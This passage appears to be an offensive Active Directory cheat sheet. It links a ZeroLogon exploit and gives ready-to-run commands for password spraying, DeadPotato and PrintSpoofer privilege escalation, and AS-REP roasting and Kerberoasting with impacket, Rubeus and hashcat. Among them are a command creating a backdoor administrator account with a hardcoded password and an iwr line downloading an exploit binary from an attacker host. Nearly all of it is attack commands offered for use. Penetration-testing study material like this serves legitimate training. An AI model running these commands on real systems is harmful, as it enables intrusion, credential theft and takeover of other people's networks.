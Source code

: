 - [Exploit](https://github.com/VoidSec/CVE-2020-1472)
- We can dump hashes on target even without any credentials.

### Password Spraying

```powershell
# Crackmapexec - check if the output shows 'Pwned!'
crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success #use continue-on-success option if it's subnet

# Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```
### DeadPotato SeImpersonatePrivilege
- For SeImpersonatePrivilege try PrintSpoofer, Different Potatos
- In Powershell or cmd

```powershell
.\DeadPotato.exe -newadmin ashok:Ashok@123
net localgroup administrators # Created User
xfreerdp /u:ashok /p:Ashok@123 /v:IP /smart-sizing:1920x1080 /cert-ignore
or 
# Create a PSCredential object with the username and password
$securePassword = ConvertTo-SecureString "Ashok@123" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential("domain\ashok", $securePassword)
# Use Start-Process to run a command with the specified credentials
Start-Process "cmd.exe" -Credential $credential
```
#### PrintSpoofer
- In PrintSpoofer powershell
```powershell
iwr -uri http://IP:8000/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
```

### AS-REP Roasting

```powershell
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request #this gives us the hash of AS-REP Roastable accounts, from kali linux
.\Rubeus.exe asreproast /nowrap #dumping from compromised windows host

hashcat -m 18200 hashes.txt wordlist.txt --force # cracking hashes
```

### Kerberoasting

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast #dumping from compromised windows host, and saving with customname

impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request #from kali machine

hashcat -m 13100 hashes.txt wordlist.txt --force # cracking hashes
```
